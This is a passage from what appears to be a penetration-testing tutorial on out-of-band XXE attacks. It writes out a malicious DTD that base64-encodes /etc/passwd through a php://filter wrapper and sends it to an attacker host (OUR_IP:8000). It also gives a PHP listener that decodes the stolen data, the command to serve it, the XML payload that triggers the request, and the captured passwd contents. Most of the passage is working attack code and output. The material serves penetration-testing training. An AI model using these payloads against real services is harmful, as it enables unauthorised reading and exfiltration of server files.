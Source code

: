 ```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

If, for example, the file we want to read had the content of XXE_SAMPLE_DATA, then the file parameter would hold its base64 encoded data (WFhFX1NBTVBMRV9EQVRB). When the XML tries to reference the external oob parameter from our machine, **it will request http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB**. Finally, we can decode the WFhFX1NBTVBMRV9EQVRB string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

So, we will first write the above PHP code to index.php, and then start a PHP server on port 8000, as follows:

```bash
vi index.php # here we write the above PHP code
php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```


Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add ```<root>&content;</root>```, which is needed to reference our entity and have it send the request to our machine with the file content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Finally, we can go back to our terminal, and we will see that we did indeed get the request and its decoded content:

```
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```
